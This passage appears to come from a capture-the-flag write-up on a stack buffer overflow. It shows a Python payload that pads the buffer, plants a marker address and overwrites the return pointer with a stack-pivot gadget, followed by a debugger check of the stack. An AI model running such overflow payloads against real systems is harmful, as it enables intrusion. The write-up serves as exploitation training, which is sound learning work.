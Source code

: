 Ok. So I remove the cyclic overflow and replace with this, to see if I can get the instruction pointer to land on `0xc01db0075`

```python
pivot_gadget = 0x401266
rop_pos = 160 - 0x50 

payload = b'A'*rop_pos
payload += p64(0xc01db0075)
payload += b'A'*(160-8-len(payload))
payload += p64(pivot_gadget)
io.sendafter(b'> ', CodeIt(payload))
```

Standard stuff.. calculate our ROP position.. pad with 'A' like a normal human being!
Probably need some more padding. Let python worry about the size again. (Don't judge!)
And the last 8 bytes is the return pointer.. so it should jump inside the buffer and segfault at `0xc0ldb0075`

I do the breakpoint thing again at the last printf and inspect the stack:

![where's my payload???](stack2.png)

